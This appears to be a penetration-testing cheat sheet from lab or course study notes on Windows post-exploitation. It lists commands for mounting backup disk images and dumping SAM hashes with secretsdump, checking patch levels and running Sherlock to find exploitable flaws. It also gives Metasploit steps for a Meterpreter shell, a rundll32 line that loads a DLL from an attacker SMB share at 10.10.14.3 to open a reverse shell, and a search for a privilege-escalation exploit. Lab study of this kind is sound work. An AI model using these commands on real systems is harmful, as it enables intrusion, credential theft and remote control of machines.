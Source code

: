 #### Mount VHD/VHDX on Linux
```Shell
guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```

In Windows, we can right-click on the file and choose `Mount`, or use the `Disk Management` utility to mount a` .vhd` or `.vhdx` file.
![[Pasted image 20230110171926.png]]

For a `.vmdk` file, we can right-click and choose `Map Virtual Disk` from the menu. If all goes to plan, we can browse the target operating system's files and directories. If this fails, we can use `VMWare Workstation File --> Map Virtual Disks` to map the disk onto our base system. 

#### Retrieving Hashes using Secretsdump.py
```Shell
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```


## Windows Server

#### Querying Current Patch Level
```cmd.exe
wmic qfe
```

#### Running Sherlock
```PowerShell
Set-ExecutionPolicy bypass -Scope process
```

```PowerShell
Import-Module .\Sherlock.ps1
```

```PowerShell
Find-AllVulns
```

#### Obtaining a Meterpreter Shell
```Shell
use exploit/windows/smb/smb_delivery
set target 0
exploit
```
*Target 0 is `DLL`*

#### Rundll Command on Target Host
```cmd.exe
rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```

This will provide a reverse shell on meterpreter

#### Searching for Local Privilege Escalation Exploit
```Shell
search 2010-3338
use 0
```

